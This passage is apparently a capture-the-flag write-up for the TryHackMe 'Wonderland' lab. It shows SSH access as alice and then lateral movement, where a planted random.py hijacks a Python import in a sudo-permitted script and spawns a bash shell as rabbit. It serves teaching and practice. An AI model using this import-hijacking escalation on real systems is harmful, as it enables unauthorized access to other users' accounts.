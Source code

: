 These credentials get us SSH access, but we see root.txt instead of user.txt and there are multiple users whom we cannot access.

```
┌──(kali㉿kali)-[~/tryhackme/wonderland]
└─$ ssh alice@10.10.197.231                                                                    

...

Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ cat root.txt
cat: root.txt: Permission denied
alice@wonderland:~$ ls /home
alice  hatter  rabbit  tryhackme
alice@wonderland:~$ ls /home/hatter
ls: cannot open directory '/home/hatter': Permission denied
alice@wonderland:~$ ls /home/rabbit
ls: cannot open directory '/home/rabbit': Permission denied
alice@wonderland:~$ ls /home/tryhackme
ls: cannot open directory '/home/tryhackme': Permission denied
```

However, when we read the hint, it says "Everything is upside down here."

```
alice@wonderland:~$ cat /root/user.txt
<redacted>
```

---
## Lateral Movement

`sudo -l` reveals that we may run the python script in our home directory as `rabbit`

```
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

This script outputs random lines from a poem.  We can't edit the script, and everything is defined in `sudo -l` with absolute paths, but the script imports the `random` python library, and does not use an absolute path.  

We can create our own `random.py` in our home directory to get the script to execute our code as `rabbit`.

```
alice@wonderland:~$ vim random.py
alice@wonderland:~$ cat random.py
import pty

pty.spawn("/bin/bash")
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

---